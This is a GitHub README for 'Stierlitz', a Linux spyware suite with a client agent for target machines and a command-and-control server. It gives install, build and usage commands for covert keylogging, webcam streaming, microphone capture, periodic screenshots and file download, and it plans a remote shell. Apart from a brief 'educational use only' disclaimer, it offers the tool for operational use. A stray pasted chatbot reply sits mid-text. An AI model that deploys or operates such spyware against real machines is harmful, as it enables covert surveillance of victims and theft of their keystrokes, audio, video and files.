






# STIERLITZ
---
[](https://www.buymeacoffee.com/yusufsaka007)


> ⚠️ This project is for educational use only. I am **not responsible** for any misuse.

**Stierlitz** is a Linux-based, multi-client spyware suite designed for red team operations. It provides a range of real-time surveillance and data exfiltration capabilities, including:

-  Webcam capture with live display (`webcam-recorder`)
-  Periodic screenshot capture (X11 only)
-  ALSA audio harvesting with playback (`alsa-harvester`)
-  Keylogging with layout support
-  File downloading

---

## Project Structure

- **`Client/`** – The malware agent deployed on the target machine.
- **`Server/`** – Acts as a command-and-control proxy between clients and tunnels. Manages clients, data routing (via FIFOs), and status tracking.
- **`URXVT/`** – Tunnel modules launched in isolated `urxvt` terminals. Each tunnel handles a specific stream (e.g., video, audio, screenshots) and performs display, processing, or saving.

> ⚠️ **Note**: Each tunnel spawns a dedicated `urxvt` instance using custom profiles located in `URXVT/profiles/`. If you're an existing URXVT user, it's **highly recommended** you back up your configuration before running `urxvt_setup.sh`. While it avoids overwriting, it's best to be cautious.

---

## Installation

```bash
./install_malware.sh      # Installs client dependencies
./install_server.sh       # Installs server dependencies
./urxvt_setup.sh          # Sets up urxvt profiles for tunnels
```

## Build

```
mkdir build && cd build
cmake ..
make
```

- To enable debugging and print statements from the client during runtime, build in Debug mode:
```
cmake -DCMAKE_BUILD_TYPE=Debug ..
```

Got it! Here's the full section starting from **Usage**, written as valid Markdown content (not inside a code block), so you can copy and paste it directly into your `README.md` file:

---

## Usage

### Run the Malware

```bash
./client <IP> <port>
```

---

### Command Reference



#### `list`

Displays all active clients, their IP addresses, corresponding indexes, current status, and active tunnels.



---

#### `keylogger`

> ⚠️ Requires root privileges

By default, it uses `/dev/input/event0`. To change the input device:

```bash
-d <index> 
eg. -d 10
```

To change the keyboard layout (default is `"us"`):

```bash
-l <layout> or --layout <layout>
```

To list available input devices:

```bash
get-dev
```



---

#### `webcam-recorder`

> ⚠️ Requires access to `/dev/videoX` (uses `videodev2`)

Streams the webcam feed in real time.



---

#### `alsa-harvester`

> ⚠️ Depends on ALSA; stereo-only for now

Captures audio from an ALSA input device and plays it on an output device.

**Defaults:**

* Input: `hw:0,0`
* Output: `hw:0,0`

To identify devices:

```bash
arecord -l   # Lists input devices
aplay -l     # Lists output devices
```

**Arguments:**

> ⚠️ Make sure to use headphones if you are testing this feature on the same computer in order to prevent high pitch audio due to a sound loop. Pick the corresponding -hwo

* `-hwi`: ALSA input device
* `-hwo`: ALSA output device



---

#### `screen-hunter`

> ⚠️ Only works on X11 (not compatible with Wayland)

Captures screenshots at fixed intervals.

**Default FPS:** `0.2` (1 screenshot every 5 seconds)

To change:

```bash
-fps <float>
```



---

## To Do

* Add output saving functionality to `screen-hunter` and `alsa-harvester`.
* Support mono devices in `alsa-harvester`.
* Implement additional commands such as `cat`, process listing, and remote shell.

---

# Contributing and Issue Reporting Guidelines

Thank you for taking the time to contribute to our project! Whether you’re submitting a bug report, suggesting improvements, or contributing code, your help is higly appreciated.

---

## Contributing

Contributions from anybody is welcomed. Please follow these steps to contribute code:

### 1. Fork and Clone the Repository
- **Fork:** Click the "Fork" button at the top right of the repository page.
- **Clone:** Clone your fork locally:
  ```bash
    git clone https://github.com/yusufsaka007/stierlitz.git
  ```

> If you fork the repository, replace yusufsaka007 with your GitHub username in the URL.

* **Navigate:** Change into the project directory:

  ```bash
  cd yourrepository
  ```

### 2. Create a Feature Branch

* Make a new branch to work on your feature or fix:

  ```bash
  git checkout -b feature/your-feature-name
  ```

### 3. Make Your Changes

* **Code:** Write clean, well-documented code.
* **Tests:** Include relevant unit tests when applicable.
* **Documentation:** Update or add documentation as needed.

### 4. Commit Your Changes

* Use clear and descriptive commit messages:

  ```bash
  git commit -m "Add feature: Description of your changes"
  ```

### 5. Push and Create a Pull Request

* **Push:** Upload your branch to your fork:

  ```bash
  git push origin feature/your-feature-name
  ```
* **Pull Request:** Open a pull request on GitHub against the `main` branch. Please provide a detailed description of your changes and any related issue numbers.

### 6. Code Review

* Be open to feedback. We may ask for changes before merging.
* Once approved, your changes will be merged into the main branch.

---

## Reporting Issues

If you encounter bugs or have suggestions for improvements, please help us by reporting them. Here’s how:

### 1. Search for Existing Issues

* Check the [Issues Tracker](https://github.com/yusufsaka007/stierlitz/issues) to see if your issue has already been reported.

### 2. Open a New Issue

* Click the "New Issue" button on the GitHub issues page.
* Fill out the issue template with:

  * **Title:** A short, descriptive title.
  * **Description:** Detailed explanation of the problem:

    * **Expected vs. Actual Behavior:** What you expected to happen versus what actually happened.
    * **Steps to Reproduce:** Detailed steps to reliably reproduce the issue.
    * **Screenshots/Logs:** Any error messages or screenshots if available.
  * **Labels:** If you can, assign relevant labels such as `bug`, `enhancement`, or `documentation`.

### 3. Submit the Issue

* Once you’ve completed the form, click “Submit new issue.”
